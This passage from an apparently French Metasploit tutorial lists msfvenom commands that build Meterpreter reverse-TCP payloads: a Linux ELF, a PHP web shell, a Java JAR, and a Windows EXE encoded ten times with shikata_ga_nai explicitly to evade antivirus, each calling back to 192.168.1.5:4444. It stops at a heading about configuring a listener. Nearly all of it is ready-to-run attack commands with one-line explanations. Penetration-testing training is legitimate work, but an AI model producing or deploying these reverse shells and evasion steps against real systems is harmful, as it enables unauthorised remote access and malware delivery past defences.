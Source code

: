***

#### 2. Générer un Payload Linux

*   **Commande** :

    ```bash
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o payload.elf
    ```
* **Explication** :
  * Formate le payload en un fichier ELF pour Linux.

***

#### 3. Générer un Payload Web (PHP)

*   **Commande** :

    ```bash
    msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.php
    ```
* **Explication** :
  * Génère un shell PHP pour obtenir une session Meterpreter.

***

#### 4. Encoder un Payload pour Contourner les Antivirus

*   **Commande** :

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe
    ```
* **Explication** :
  * `-e` : Utilise un encodeur (ici `shikata_ga_nai`).
  * `-i 10` : Encode le payload 10 fois pour augmenter les chances de contournement.

***

#### 5. Générer un Payload Multi-Plateforme

*   **Commande** :

    ```bash
    msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f jar -o payload.jar
    ```
* **Explication** :
  * Crée un payload au format `.jar` pour cibler les environnements Java.

***

### 🎯 Étape 5 : Configurer un Listener dans Metasploit

***
